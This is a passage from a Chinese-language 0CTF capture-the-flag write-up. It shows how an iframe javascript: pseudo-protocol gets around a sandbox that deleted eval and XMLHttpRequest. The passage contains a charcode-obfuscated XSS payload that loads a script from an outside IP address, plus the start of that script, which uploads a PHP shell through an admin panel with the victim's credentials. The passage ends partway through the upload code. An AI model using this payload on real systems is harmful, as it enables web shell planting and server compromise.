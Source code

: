![0ctf](https://mo-xiaoxi.github.io/img/post/0ctf/0ctf.png)

发现iframe的伪协议可以绕过，调用被禁用的函数。（还没搞懂为啥可以绕过，有知道的，求解答一波～）

然后，就想着通过iframe的伪协议调用一个外部的js，外部的js执行上传shell的操作。

本地测试一波

```html
<!doctype html>
<head>
<title>Admin Panel</title>
<script>
//sandbox
delete window.Function;
delete window.eval;
delete window.alert;
delete window.XMLHttpRequest;
delete window.Proxy;
delete window.Image;
delete window.postMessage;
</script>
</head>

<h1>Hello <iframe src='javascript:eval(String.fromCharCode(118, 97, 114, 32, 115, 115, 115, 61, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 34, 115, 99, 114, 105, 112, 116, 34, 41, 59, 115, 115, 115, 46, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 49, 48, 54, 46, 49, 52, 46, 54, 49, 46, 49, 56, 53, 47, 102, 105, 108, 101, 115, 47, 120, 115, 115, 46, 106, 115, 34, 59, 100, 111, 99, 117, 109, 101, 110, 116, 46, 98, 111, 100, 121, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 115, 115, 115, 41, 59))'></iframe></h1>


<p>Upload your shell</p>
<form action="/upload" method="post" enctype="multipart/form-data">
<p><input type="file" name="file"></input></p>
<p><input type="submit" value="upload">
</form>
```

```js
String.fromCharCode(118, 97, 114, 32, 115, 115, 115, 61, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 34, 115, 99, 114, 105, 112, 116, 34, 41, 59, 115, 115, 115, 46, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 49, 48, 54, 46, 49, 52, 46, 54, 49, 46, 49, 56, 53, 47, 102, 105, 108, 101, 115, 47, 120, 115, 115, 46, 106, 115, 34, 59, 100, 111, 99, 117, 109, 101, 110, 116, 46, 98, 111, 100, 121, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 115, 115, 115, 41, 59)
var sss=document.createElement("script");sss.src="http://106.14.61.185/files/xss.js";document.body.appendChild(sss);
```

xss.js就是实现一个上传逻辑

```js
function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http://admin.government.vip:8000/upload", true);
        xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------32762167253918");
        xhr.withCredentials = true;
        var body = "-----------------------------32762167253918\r\n" +
          "Content-Disposition: form-data; name=\"file\"; filename=\"1.php\"\r\n" +
          "Content-Type: application/octet-stream\r\n" +
```